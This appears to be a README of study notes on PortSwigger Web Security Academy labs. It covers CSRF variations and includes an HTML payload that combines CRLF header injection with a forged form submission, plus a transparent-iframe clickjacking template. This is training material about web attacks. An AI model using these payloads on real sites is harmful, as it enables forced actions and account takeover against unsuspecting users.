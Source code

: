 <h1 align="center">Portswigger</h1>
<p align="center">This page is about portswigger.net</p>

See more:

https://portswigger.net/web-security

## Variations of Cross-site request forgery (CSRF)
* CSRF where token validation depends on request method
* CSRF where token validation depends on token being present
* CSRF where token is not tied to user session
* CSRF where token is tied to non-session cookie
* CSRF where token is duplicated in cookie
* CSRF where Referer validation depends on header being present
* CSRF with broken Referer validation

### CSRF where token is tied to non-session cookie
#### Two actions in just one open

Adversaries craft a web form with some values and inject a cookie that's is related to those values given. But the adversaries need to do that in just one step.

Find a place in the website that returns something, add the link in the "src" atributte of a _img_ tag with a Set-Cookie instructions to inject a cookie in the victim's browser. Then make a submit of the form through _onerror_ atributte.

```html
<img src="https://URL/?search=test%0D%0ASet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" --action #1 - inject a needed cookie
  onerror="document.forms[0].submit()"> -- action #2 - submit
```
As the content of "src" attribute is invalid (it set a cookie on client's browser), the content of "onerror" (a submit) will execute in sequence.

%3B = ";"

##### With CRLF (%0D%0A) Injection: 

_When a browser sends a request to a web server, the web server answers back with a response containing both the HTTP response headers and the actual website content, i.e. the response body. The HTTP headers and the HTML response (the website content) are separated by a specific combination of special characters, namely a carriage return and a line feed. For short they are also known as CRLF (%0D%0A). The web server uses the CRLF to understand when new HTTP header begins and another one ends._

See more: https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a

## Clickjacking

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity; -- 0.1 to 0.0001
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```
